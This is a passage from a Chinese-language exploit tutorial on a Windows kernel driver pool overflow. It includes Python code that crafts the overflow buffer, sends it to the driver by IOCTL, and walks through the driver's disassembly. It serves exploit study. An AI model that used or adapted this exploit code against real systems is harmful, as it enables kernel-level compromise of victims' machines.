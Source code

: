 ```
    outputbuffer      = 0x20000000
    alloc_pool_overflow_buffer(inputbuffer, inputbuffer_size)
    IoStatusBlock = c_ulong()
 
    if driver_handle:
        dev_ioctl = ntdll.ZwDeviceIoControlFile(driver_handle, None, None, None, byref(IoStatusBlock), 0x953824b7,
                                                inputbuffer, inputbuffer_size, outputbuffer, outputbuffer_size)
        return True
    return False
```



**实现溢出**

****

大家可能注意到，在对缓冲区中偏移0x90的利用中，有一个空的dword。



```
def alloc_pool_overflow_buffer(base, input_size):
    """
    Craft our special buffer to trigger the overflow.
    """
    print "(+) allocating pool overflow input buffer"
    baseadd   = c_int(base)
    size = c_int(input_size)
    input  = "x41" * 0x18                     # offset to size
    input += struct.pack("&lt;I", 0x0000008d)     # controlled size (this triggers the overflow)
    input += "x42" * (0x90-len(input))        # padding to survive bsod
    input += struct.pack("&lt;I", 0x00000000)     # use a NULL dword for sub_4196CA
    input += "x43" * ((0x460-0x8)-len(input)) # fill our pool buffer
```

该溢出需要始终存在，并且不能再被处理。下列的代码可以在复制循环后直接执行：



```
.text:004199ED loc_4199ED:                                  ; CODE XREF: sub_41998E+41
.text:004199ED                 push    9
.text:004199EF                 pop     ecx
.text:004199F0                 lea     eax, [ebx+90h]       ; controlled from the copy
.text:004199F6                 push    eax                  ; void *
.text:004199F7                 lea     esi, [edx+6Ch]       ; controlled offset
.text:004199FA                 lea     eax, [edx+90h]       ; controlled offset
.text:00419A00                 lea     edi, [ebx+6Ch]       ; controlled from copy
.text:00419A03                 rep movsd
.text:00419A05                 push    eax                  ; int
.text:00419A06                 call    sub_4196CA           ; call sub_4196CA
```

值得注意的是，代码将会调用sub_4196CA。此外还要注意，@eax会成为我们的缓冲区+0x90（0x004199FA）。我们具体看一下这个函数调用：
